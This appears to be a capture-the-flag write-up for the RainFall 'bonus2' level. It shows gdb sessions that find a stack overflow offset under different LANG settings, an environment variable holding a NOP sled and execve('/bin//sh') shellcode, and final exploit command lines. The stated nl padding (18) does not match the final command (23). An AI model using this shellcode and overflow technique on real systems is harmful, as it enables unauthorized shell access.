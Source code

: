 First we want to know how the buffer is write in this program with the default LANG:

bonus2@RainFall:~$ export LANG="en"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
(gdb) i r
eax            0x4f	79
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x39614138	0x39614138
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x8006241	0x8006241			--> We look at the eip, we don t see any pattern... 
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We tryed to put 0x08006241 in the https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
But nothing...

bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
																	   ----
																	our pattern	

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
(gdb) i r
eax            0x5b	91
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x35614134	0x35614134
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x41366141	0x41366141		--> 41 = A, 36 = 6, 61 = a, 41 = A (A6aA   --> reverse this = Aa6A) : We have a pattern
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We have a padding of 18 for LANG="fi" (Calculated with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator).
But you can calcute by hand :
a0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
<--------------->|
	17 bytes	 18eme byte



OK find the same this for the other : LANG="nl" 

bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
																	        ----
																			our pattern
Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
(gdb) i r
eax            0x56	86
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x61413661	0x61413661
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x38614137	0x38614137			--> 38 = 8 , 61 = a, 41 = A, 37 = 7 (8aA7 --> in reverse = 7Aa8) : We have a pattern
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We have a padding of 18 for LANG="nl" (Calculated with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator).

export SHELLCODEINJECTION=$(python -c 'print "\x90"*128 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) 















(gdb) run
Starting program: /home/user/bonus2/bonus2 

Breakpoint 1, 0x0804852f in main ()
(gdb) (gdb) x/s *((char **)environ+1)
Undefined command: "".  Try "help".
(gdb) x/s *((char **)environ+1)
0xbffff877:	 "TERM=xterm-256color"
(gdb) x/s *((char **)environ)
0xbffff867:	 "SHELL=/bin/bash"
(gdb) x/30s *((char **)environ)
0xbffff867:	 "SHELL=/bin/bash"
0xbffff877:	 "TERM=xterm-256color"
0xbffff88b:	 "SSH_CLIENT=192.168.56.1 50140 4242"
0xbffff8ae:	 "SSH_TTY=/dev/pts/0"
0xbffff8c1:	 "USER=bonus2"
0xbffff8cd:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffff995:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffa5d:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffb25:	 ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffbed:	 "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xbffffcb5:	 ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xbffffd7d:	 ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffdee:	 "COLUMNS=134"
0xbffffdfa:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffe47:	 "MAIL=/var/mail/bonus2"
0xbffffe5d:	 "_=/usr/bin/gdb"
0xbffffe6c:	 "PWD=/home/user/bonus2"
0xbffffe82:	 "LANG=fi"
0xbffffe8a:	 "LINES=32"
0xbffffe93:	 										--> our shellcode address	"SHELLCODEINJECTION=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\231Ph//shh/bin\211\343PS\211\341\260\v\315\200"
0xbfffff3f:	 "HOME=/home/user/bonus2"
---Type <return> to continue, or q <return> to quit---
0xbfffff56:	 "SHLVL=1"
0xbfffff5e:	 "LOGNAME=bonus2"
0xbfffff6d:	 "SSH_CONNECTION=192.168.56.1 50140 192.168.56.3 4242"
0xbfffffa1:	 "LESSOPEN=| /usr/bin/lesspipe %s"
0xbfffffc1:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
0xbfffffe3:	 "/home/user/bonus2/bonus2"
0xbffffffc:	 ""
0xbffffffd:	 ""
0xbffffffe:	 ""


0xbffffe93 in little endian = \x93\xfe\xff\xbf

./bonus2 $(python -c 'print "A" * 60') $(python -c 'print "B" * 18 + "\x93\xfe\xff\xbf"')		--> fi
./bonus2 $(python -c 'print "A" * 60') $(python -c 'print "B" * 23 + "\x93\xfe\xff\xbf"')		--> nl